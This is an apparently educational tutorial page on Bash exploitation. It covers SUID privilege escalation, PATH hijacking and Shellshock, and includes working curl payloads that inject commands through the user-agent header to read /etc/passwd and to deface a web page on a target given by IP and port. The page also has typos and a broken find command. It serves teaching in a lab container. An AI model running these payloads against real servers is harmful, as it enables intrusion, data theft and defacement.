


SCO - Bash
Introduction
This webpage is collection of simple tutorials for running exploits in Bash.
All examples are modified projects/programs/snippets of code collected from the Internet. Source is noted for each example. You can donwload the example repository forom Github repository
SUID bit exploit
Github repository directory with the example
The SUID (Set User ID) bit is a special permission that can be set on a file in Linux. When a file has the SUID bit set, it will run with the permissions of the file's owner instead of the user who ran the file. This can be used to escalate privileges.
Privilege escalation is demonstrated on following example:
Let's assume, that compiled get_root.c has the SUID bit set. Then, when the program is run, it sets IDs to variables using functions
getuid() and geteuid() Then on lines 18 and 19, the root user is is set as the user, who originally executed the program. Now, new processes
can be opend from this program, each of them running as root user. This fact is xploited on line 22, where program get_in.sh is executed. In this case,
get_in.sh open new terminal as root.
/bin/bash -i
#include
#include
#include
#include
int main(void) {
// store the uids
uid_t ruid = getuid();
uid_t euid = geteuid();
// store the gids
gid_t rgid = getgid();
gid_t egid = getegid();
printf("Before execution UID: %d and EUID: %d\n", ruid, euid);
printf("Before execution GID: %d and EGID: %d\n", rgid, egid);
// elevate the privileges
setuid(euid);
setgid(egid);
// perform action
system("/bin/bash get_in.sh");
// drop privileges
if (setuid(ruid)) {
fprintf(stderr, "Drop user privileges setuid(%d) failed!\n", ruid);
}
if (setgid(rgid)) {
fprintf(stderr, "Drop group privileges setgid(%d) failed!\n", rgid);
}
printf("After execution UID: %d and EUID: %d\n", getuid(), geteuid());
printf("After execution GID: %d and EGID: %d\n", getgid(), getegid());
printf("Completed! Check output in /tmp/output\n");
return 0;
}
Because it is needed to be root in order to set the SUID bit, attacker does not create new programs, but he searches for vulnerable programs on the system. These can be found using:
find / -type f -perm -4001 -exec
ls -h {} \; 2 > /dev/null
When any of these found programs is not coded securly, and contains dangerous call of system function (for example: system(ls) místo system(/bin/ls),
it can be exploited using environmental variables - more on that in next chapter.
Environmental Variables
Environmental variables are variables in the environment of the running process. Because they are set for the entire environment in which individual processes run, processes use these variables for their activity.
If the PATH variable is overwritten (by a program or a user) in the running shell process, then it can substitute its own code for another, legitimate and similarly named program. A program or user with administrator rights can then unwittingly start an attacker's code. This can happen in two cases:
- Suppose there is a situation where the currently open directory is added to the PATH variable (by the command
export PATH = .: $ PATH). If there is a program with the namepingin the current open folder, and the user writes ping to the command line, the malicious code will be executed. To start the legitimate instance ofping, it must be started as/bin/ping. - Suppose there is a situation where the currently open directory is added to the PATH variable (by the command
export PATH = .: $ PATH). If there is a program with the namepingin the current open folder, and a program with the SUID flag set is started, whose owner is root, and which callssystem(ping), the attacker's program is executed with root privileges. Therefore, it is important to be carefull when opening new processes in programs with the SUID flag set.
$ ping 1.1.1.1
PING 1.1.1.1 (1.1.1.1) 56(84) bytes of data.
64 bytes from 1.1.1.1
64 bytes from 1.1.1.1
.
.
.
$ export PATH=.:$PATH
$ ping 1.1.1.1
I am a virus!!!!!
Shellshock
Shellshock is a vulnerability in the Bash shell that allows an attacker to execute arbitrary commands on a vulnerable system. It was discovered in September 2014. It was then applicable to all versions of Bash from 1.14.7 to 4.3. Shellshock is decribed in detail in the NIST databse in the CVE-2014-6271 and CVE-2014-7169 entries.
The idea behind Shellshock is to use the environment variables to execute malicious code. If there is an unsanitised user input, an
attacker can use it to overwrite the environment variables. This overwritten variable will then contain the malicious code in a form of a string.
That code is not the main part of the attcak though, because string in environmental variable is never executed. However, if the string begins
with (){ :;}, then it is executed as a function. This is the Shellshock in a nutshell.
Watch this excellend video about Shellshock by Tom Scott: https://www.youtube.com/watch?v=aKShnpOXqn0
In https://github.com/RollLikeRollo/SCO_shell_scripting/tree/main/shellshock/bash-4.3
you can find a vulnerable version of Bash. You can test the vulnerability by running the testing script ./run.sh. This will open the old vulnerable Bash shell.
Try running following command in Bash 4.3: env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
Example exploit by opsxcq
Repository with the example: https://github.com/opsxcq/exploit-CVE-2014-6271In this example, the attacker uses the vulnerable file on web server to revrite contents of a webpage.
This example contains docker container running a web server and a vulnerable Bash shell. The web server is running on localhost, port 8080.
In order to setup and run the container, run the run_docker.sh script in a new terminal as root (use sudo, for example). The script has
to be kept open and running for the entire duration of the experiment. Because the enviroment is a docker container, the experiment can be indefinitely repeated.
Just restart the container.
Open a web browser and go to http://localhost:8080/. You should see a vulnerable webpage which
looks like thhe one on image below.

In terminal, run run_simple_exploit.sh. It contains the following code:
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://localhost:8080/cgi-bin/vulnerable
curl utility uses the -H switch. This switch manually sets the HTTP header. The header is set to the value of the user-agent environmental variable,
to which is the malicious code injected. This code should output the contents of the /etc/passwd file of the web server machine, our docker container, in our case.
If the previous step was successful, you can continue to the next step. In the terminal, run exploit-deface.sh. It contains the following code:
if [ -z "$1" ]
then
echo 'Please inform the IP and PORT of the target'
echo 'Example: ./exploit-deface.sh '
return -1
fi
ip=$1
port=$2
echo '[+] Sending the exploit'
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo \"<html><body><h1>DEFACED</h1></body></html>\" > /var/www/index.html'" http://$ip:$port/cgi-bin/vulnerable && \
echo '[+] Target exploited, testing if defacement page is deployed' && \
curl http://$ip:$port
echo '[+] Done'
exploit-deface.sh with the IP address and port of the web server in the arguments. In our case, the IP address is localhost or 172.17.0.2 and the port is 8080.
Reload the webpage in the browser. You should see the defaced page. Was the attack successful?
The page should look like this now:
